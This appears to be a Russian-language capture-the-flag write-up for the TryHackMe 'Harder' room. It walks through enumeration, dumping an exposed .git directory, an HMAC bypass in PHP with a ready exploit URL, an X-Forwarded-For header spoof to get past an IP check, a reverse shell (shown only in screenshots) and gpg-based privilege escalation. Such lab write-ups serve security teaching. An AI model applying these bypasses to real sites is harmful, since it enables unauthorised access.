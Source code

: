 # Harder

:white_check_mark:  [**git**](#git)

:white_check_mark: [**hmac**](#hmac)

:white_check_mark: [**hash**](#hash)

:white_check_mark: [**gpg**](#gpg)
___

## Enumeration
Сканируем ip командой:
```
nmap -sC -sV harder.thm
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3 (protocol 2.0)
| ssh-hostkey: 
|   4096 cf:e2:d9:27:d2:d9:f3:f7:8e:5d:d2:f9:9d:a4:fb:66 (RSA)
|_  256 1e:45:7b:0a:b5:aa:87:e6:1b:b1:b7:9f:5d:8f:85:70 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-title: Error
|_http-server-header: nginx/1.18.0                                                        
```

Перехватываем запрос с главной страницы **harder.thm** и видим название поддомена **pwd.harder.local**. Добавляем поддомен в **/etc/hosts**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/1.png)

Теперь у нас есть доступ к панели авторизации.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/2_1.png)

Проходим аутентефикацию со стандартными логином и паролем **admin:admin**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/2_2.png)

Проверяем директории **pwd.harder.local**.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/2.png)

```
gobuster dir -u http://pwd.harder.local -w /usr/share/wordlists/dirb/common.txt
```

```
===============================================================
[+] Url:                     http://pwd.harder.local
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/02/28 19:50:02 Starting gobuster in directory enumeration mode
===============================================================
/.git/HEAD            (Status: 200) [Size: 23]
/index.php            (Status: 200) [Size: 19926]
```

<a name="git"></a>

Находим директорию **/.git/HEAD**/. Попробуем сдампить **git** с [git-dumper](https://github.com/arthaud/git-dumper).

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/3.png)

Используем команду **git checkout**. Git checkout используется для обновления заголовка с целью установки одной указанной ветви в качестве текущей ветви.
Получаем доступ к файлам:

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/4.png)

<a name="hmac"></a>

Откроем файл **hmac.php**. 

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/5.png)

Скрипт сначала проверяет наличие **GET[‘h’]** или **GET[‘host’]**. Если один из них пуст - соединение обрывается. Затем скрипт включает файл secret.php, которого у нас нет в репозитории git. Далее, если **GET[‘n’]** не пуст, генерируется хеш-значение SHA256 с использованием метода HMAC, и ключ достается из файла secret.php, а новый хэш сохраняется в переменной $secret. Теперь, используя этот хэш в $secret в качестве ключа, генерируется хеш SHA256 параметра **GET[‘host’]** и сохраняется в переменной $hm. И, наконец, если $hm не равно **GET['h']**, соединение обрывается. Итак, теперь мы должны предсказать окончательный результат и передать его в **GET['h']**. Чтобы обойти это правило, передаем значение **GET[’n’]** как массив, который, дает значение $secret как ложное.

<a name="hash"></a>

Создаем хэш с нужными условиями: 

```
php -r "echo hash_hmac('sha256', "pwd.harder.local", false)"

hash = 5b622e20b29bdbcb0a4881f1d117d20a33a1f78a3c07ba85645567607e75cedf
```

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/6.png)

Url для эксплуатации уязвимости: 

```
http://pwd.harder.local/?n[]=&h=5b622e20b29bdbcb0a4881f1d117d20a33a1f78a3c07ba85645567607e75cedf&host=pwd.harder.local
```
![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/7.png)

Добавляем новый поддомен и заходим в аккаунт.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/8.png)

Получение доступа возможно только с ip 10.10.10.x . Перехватываем запрос и модифицируем путем добавления заголовка **X-Forwarded-For: 10.10.10.10**, который позволит обойти проверку ip. [Расширение](https://addons.mozilla.org/ru/firefox/addon/x-forwarded-for-injector/?utm_source=addons.mozilla.org&utm_medium=referral&utm_content=search) в Firefox позволяет подставлять этот заголовок автоматически.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/9.png)

Получаем доступ к "консоли". 

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/10.png)

Кидаем обратную оболочку.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/11.png)

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/12.png)

Находим файлы к которым имеет доступ пользователь www.
```
find / -type f -user www 2>/dev/null
```

Find находит интересный файл, выведем его в консоль.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/13.png)

Теперь мы имеем доступ к машине по ssh. Пробуем найти файлы сожержащие **SUID**.
```
find / -perm -u=s 2>/dev/null
```
<a name="pgp"></a>

Просмотрим содержимое скрипта. Нужен ключ gpg.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/14.png)

Ключ gpg находится в **/var/backups**. Импортируем ключ.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/15.png)

## Privilege escalation

Создадим файл с командой, зашифруем ключом gpg, используем скрипт.

![](https://github.com/fobblified/Writeups/blob/main/Tryhackme/assets/Harder/16.png)
